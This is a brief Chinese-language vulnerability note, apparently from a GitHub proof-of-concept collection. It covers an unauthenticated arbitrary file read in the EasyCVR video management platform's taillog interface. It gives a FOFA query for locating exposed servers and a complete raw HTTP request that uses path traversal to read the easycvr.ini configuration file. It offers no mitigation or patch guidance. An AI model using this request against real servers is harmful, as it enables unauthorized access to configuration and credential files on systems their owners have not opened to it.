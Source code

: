 # EasyCVR视频管理平台taillog任意文件读取漏洞

EasyCVR-视频管理平台 taillog 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```javascript
app="EasyCVR-视频管理平台"
```

## poc

```javascript
GET /taillog/oxsecl/..\easycvr.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241211213020522](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112130594.png)